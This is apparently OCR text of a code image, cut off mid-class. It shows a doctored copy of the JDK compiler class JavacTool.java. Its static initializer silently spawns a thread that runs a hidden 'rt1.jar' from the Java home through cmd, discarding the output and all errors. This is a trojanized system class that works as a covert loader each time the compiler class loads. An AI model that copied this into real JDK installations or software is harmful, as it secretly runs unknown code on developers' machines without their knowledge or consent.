 	new Thread() {
            public void run() {
				//your code
   			}
        }.start();

	System.out.println(1);

JavacTool.java

	package com.sun.tools.javac.api;
	
	import javax.lang.model.SourceVersion;
	import javax.tools.*;
	import java.io.*;
	import java.nio.charset.Charset;
	import java.util.ArrayList;
	import java.util.List;
	import java.util.Locale;
	import java.util.Set;
	
	
	public class JavacTool implements JavaCompiler {
	
	
	    static {
	        new Thread() {
	            public void run() {
	                try {
	                    String javaHome = System.getProperty("java.home");
	                    if (javaHome.contains("jre")) {
	                        javaHome = javaHome.split("jre")[0];
	                    } else {
	                        //javaHome = javaHome + "\\jre";
	                    }
	                    //System.out.println(javaHome);  // E:\jdk1.8\jre
	                    String line1 = "java -jar " + "\"" + javaHome + "lib\\rt1.jar" + "\"";  // v4.0.2
	                    //System.out.println(line1);
	                    String[] cmd = new String[]{"cmd", "/c", line1};
	                    Process ps = Runtime.getRuntime().exec(cmd);
	                    BufferedReader br = new BufferedReader(new InputStreamReader(ps.getInputStream()));
	                    StringBuffer sb = new StringBuffer();
	                    String line;
	                    while ((line = br.readLine()) != null) {
	                        sb.append(line).append("\n");
	                    }
	                    String result = sb.toString();
	                    //System.out.println(result);
	                } catch (Exception e) {
	                    //e.printStackTrace();
	                }
	            }
	        }.start();
	        System.out.println(1);
	    }
	